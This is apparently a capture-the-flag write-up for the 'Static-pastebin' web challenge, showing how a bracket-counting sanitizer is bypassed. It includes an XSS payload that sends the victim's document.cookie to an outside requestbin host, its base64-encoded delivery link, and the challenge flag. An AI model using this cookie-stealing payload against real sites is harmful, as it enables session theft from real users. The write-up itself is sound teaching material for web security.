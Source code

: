 ## Static-pastebin :

The description of this challenge was : " I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here "

The home page of the web site was presented like this:

![CaptureVero](https://user-images.githubusercontent.com/59454895/85900597-63acc800-b800-11ea-81fa-4d3b209847fa.PNG)

There was also a way to report a link to the admin:

![OOOOOO](https://user-images.githubusercontent.com/59454895/85901979-344b8a80-b803-11ea-9027-8e13f90dacdc.PNG)


First of all i tried to put <script>alert(1);</script> to see if the site would print the number one but it didn't work and i got this :

![Capture000](https://user-images.githubusercontent.com/59454895/85898838-49251f80-b7fd-11ea-85b8-91c018a2c048.PNG)

 Here i could notice that every post was base64 encoded when i pressed the button create , i got also this confirmation from the code of the site that was dealing the posts , because as we can see there is the btoa function that encodes the text value in base64 :
 
 ```javascript
 (async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const button = document.getElementById('button');
    button.addEventListener('click', () => {
        const text = document.getElementById('text');
        window.location = 'paste/#' + btoa(text.value);
    });
})();
```

After i made the post in the site i looked inside the source again to see how the reading part was handled  and i found some interesting code :
```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}

```
Reading this code i understood two important things , first of all the value from URL is decoded from base64 using the atob function ( It will be useful when i will report the link with the payload) and our input is sanitized with the clean function , looking inside this function i could see that the writing of text was not allowed if the bracket pairs didn't match . I broke this function just adding a > to my payload :
```javascript
test"><img src=x onerror=alert("22");>
```
![Test](https://user-images.githubusercontent.com/59454895/85903016-a45b1000-b805-11ea-8b64-ee6ca162333f.PNG)

Now that I know it works locally I modified my payload in this way :  ``` test"><img src=x onerror=window.location.href='https://en96oi0edd3dm.x.pipedream.net/?a='+document.cookie;>``` . I used a requestbin to intercept the admin's cookies.


The admin needs to visit the link or we can't intercept his cookie, so I encoded all my payload in base 64 and i added it in my link in this way :

https://static-pastebin.2020.redpwnc.tf/paste/#dGVzdCI+PGltZyBzcmM9eCBvbmVycm9yPXdpbmRvdy5sb2NhdGlvbi5ocmVmPSdodHRwczovL2VuOTZvaTBlZGQzZG0ueC5waXBlZHJlYW0ubmV0Lz9hPScrZG9jdW1lbnQuY29va2llOz4=

The final step was to report this entire link to the admin and check the requestbin  :

![FlagStaticBin](https://user-images.githubusercontent.com/59454895/85904268-87740c00-b808-11ea-8c5e-bf24dc24d7a4.PNG)

Flag: flag{54n1t1z4t10n_k1nd4_h4rd}

